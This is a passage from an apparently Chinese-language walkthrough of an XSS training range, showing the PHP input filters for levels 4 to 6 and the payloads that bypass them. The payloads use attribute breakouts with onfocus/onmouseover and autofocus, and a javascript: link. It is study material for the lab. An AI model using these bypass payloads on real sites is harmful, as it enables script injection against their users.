构造 input 的 XSS,例如: `<input value=xss onfocus=alert(1) autofocus>`

payload: `test'onmouseover='alert(1)'`
payload: `test'onfocus='alert(1)' autofocus '`

---

# level 4

```php
$str = $_GET["keyword"];
$str2=str_replace(">","",$str);
$str3=str_replace("<","",$str2);
```

发现过滤了 `<`、`>`,使用 `"` 可以闭合

测试一下 `test"123`

![images](../../../../../assets/img/Security/RedTeam/Web安全/靶场/XSS/3.png)

构造 input 的 XSS,例如: `<input value=xss onfocus=alert(1) autofocus>`

payload: `test"onfocus=alert(1) autofocus "`

---

# level 5

```php
$str = strtolower($_GET["keyword"]);
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
```

这一关主要过滤了 `<script` 和 `on`

使用 `">` 闭合,然后使用一个不被过滤的payload `<a href=javascript:alert(19)>M`

payload: `"><a href=javascript:alert(19)>M`

---

# level 6

```php
$str = $_GET["keyword"];
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
```
